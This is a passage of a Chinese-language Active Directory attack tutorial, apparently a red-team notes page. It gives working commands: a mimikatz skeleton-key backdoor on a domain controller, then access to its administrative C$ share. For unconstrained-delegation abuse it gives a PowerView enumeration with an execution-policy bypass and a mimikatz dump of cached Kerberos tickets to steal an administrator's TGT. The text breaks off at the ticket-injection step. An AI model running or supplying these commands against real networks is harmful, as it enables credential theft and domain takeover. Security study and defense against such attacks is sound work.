 **利用**

```
# 在域控主机上运行 mimikatz

privilege::debug

misc::skeleton

# 在域主机上
net use \\[域控主机名].king.com\c$ mimikatz /user:administrator@king.com

这时候就能查看域控主机
dir \\WIN-8VSIF64RC10.king.com\c$
```

### 域内委派攻击

委派功能只有`服务账号`和`主机账号`才有委派功能，普通域内用户或域控是没有的。

#### 非约束委派攻击

**所需工具**：https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

**原理**：`用户`需要访问`主机1`上的`HTTP服务`，而`HTTP服务`需要请求其他主机的`SQLServer数据库`，但是`主机1`并不知道用户是否有权限访问`SQLServer`，这时`HTTP服务`会利用`用户的TGT`的身份去访问`KDC`，如果`用户`有权限访问`SQLServer服务`才能访问成功。这就是非约束委派的过程。实际上就是将用户自己的TGT委派了一个服务账号，该服务访问任何服务都会带上用户的TGT，因此会再服务机器上留下用户的TGT。

在域控上执行

```
# 导入工具
Set-ExecutionPolicy Bypass -Scope Process -Force
Import-Module .\PowerView.ps1

# 查看非约束委派的用户
Get-NetUser -Unconstrained -Domain king.com

# 查看非约束委派的计算机
Get-NetComputer -Unconstrained -Domain king.com

把已经控制的主机用户设置为非约束委派，并且服务被其他主机访问的情况下才可继续利用
```

在域内主机上用本地管理员登录，执行一下命令

```
# 使用mimikatz导出主机中的所有凭证，找到如下的administrator的TGT凭证
privilege::debug    
sekurlsa::tickets /export
```

![image-20210116105039417](C:\Users\Rainbow\AppData\Roaming\Typora\typora-user-images\image-20210116105039417.png)

将凭证添注入
